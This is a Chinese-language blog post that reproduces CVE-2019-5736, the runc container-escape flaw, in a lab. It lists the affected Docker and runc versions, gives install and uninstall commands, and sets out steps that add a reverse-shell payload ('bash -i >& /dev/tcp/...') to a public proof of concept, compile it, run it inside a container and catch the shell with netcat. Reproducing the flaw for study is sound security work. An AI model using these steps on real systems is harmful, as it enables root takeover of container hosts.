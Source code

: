 ```yaml
---
title: CVE-2019-5736容器逃逸漏洞复现
date: 2022-08-15 20:14:52
slug: docker-cve-2019-5736
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```



## 一、漏洞概述

`CVE-2019-5736`漏洞是指通过从容器内覆盖并执行主机系统 runc 二进制文件，从而获取主机上的root执行权限。


## 二、影响版本

OS: Ubuntu 16.04

Docker: 18.06.0-ce ( docker version < 18.09.02 )

Docker Runc: 1.0.0-rc5 ( runc version < 1.0-rc6 )

![image-20230808140825632](imgs/20230808140825632.png)

## 三、漏洞复现

```bash
# 安装 Docker 
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
```

```bash
# 卸载 Docker
# Step1, 删除docker及安装时自动安装的所有包
sudo apt-get autoremove docker docker-ce docker-engine  docker.io  containerd runc

# Step2, 查看docker是否卸载干净
sudo dpkg -l | grep docker
sudo dpkg -l |grep ^rc|awk '{print $2}' |sudo xargs dpkg -P # 删除无用的相关的配置文件

# Step3, 删除没有删除的相关插件
sudo apt-get autoremove docker-ce-*
```

```bash
# 下载POC https://github.com/Frichetten/CVE-2019-5736-PoC

# 加入反弹shell的命令
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.0.2.15/7777 0>&1" + shellCmd

# 编译POC
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go

# 将POC编译好的文件Copy到容器
sudo docker cp main <容器ID>:/home
docker exec -it <容器ID> bash
cd /home/
chmod 777 main
./main

![image-20230808134827089](imgs/20230808134827089.png)

# 启动NC监听目标端口(7777)
nc -lnvp 7777
```


![image-20230808135227522](imgs/20230808135227522.png)

![image-20230808135046294](imgs/20230808135046294.png)


## 参考

- https://cloud.tencent.com/developer/article/1668009
- https://blog.51cto.com/u_16179749/6633750
- https://github.com/Frichetten/CVE-2019-5736-PoC
- https://www.freebuf.com/articles/web/258398.html
- https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/